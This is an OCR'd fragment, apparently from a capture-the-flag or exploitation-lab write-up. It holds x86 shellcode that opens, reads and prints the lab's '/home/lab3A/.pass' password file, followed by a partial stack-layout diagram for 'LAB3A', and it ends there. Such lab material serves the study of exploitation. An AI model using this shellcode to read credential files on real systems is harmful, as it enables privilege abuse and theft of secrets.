**SHELLCODE**
```cpp
/*
 * read from file
 * write to stdout
 * A1phaZer0:ini.universe#gmail.com
 * 2017-11-23
 */
.intel_syntax noprefix
.section .text
.global _start

_start:
    jmp L2

L1:
    pop esi
    /* open syscall */
    lea ebx, [esi + 50]
    xor ecx, ecx
    xor edx, edx
    xor eax, eax
    mov dh, 0x1
    mov al, 0x5
    int 0x80
    /* read syscall */
    xor edx, edx
    mov dl, 50
    mov ecx, esi
    mov ebx, eax
    xor eax, eax
    mov al, 0x3
    int 0x80
    /* write syscall */
    mov ecx, esi
    xor ebx, ebx
    mov bl, 0x1
    mov al, 0x4
    int 0x80

L2:
    call L1
    buffer:
        .fill 50, 1, 0x90
    passfile:
        .asciz "/home/lab3A/.pass"
```

> **LAB3A:**  

```bash
+===============+
|_____envp______|
|_____argv______|
|_____argc______|
|______ret______|
|___old_ebp_____|<- ebp
|______edi______|
|______ebx______|<- esp+0x1c0
|______0x1______|<- esp+0x1bc
|______0x0______|<- esp+0x1b8
|______0x0______|<- esp+0x1b4
|______0x0______|<- esp+0x1b0
|______0x0______|<- esp+0x1ac
|______0x0______|<- esp+0x1a8
```
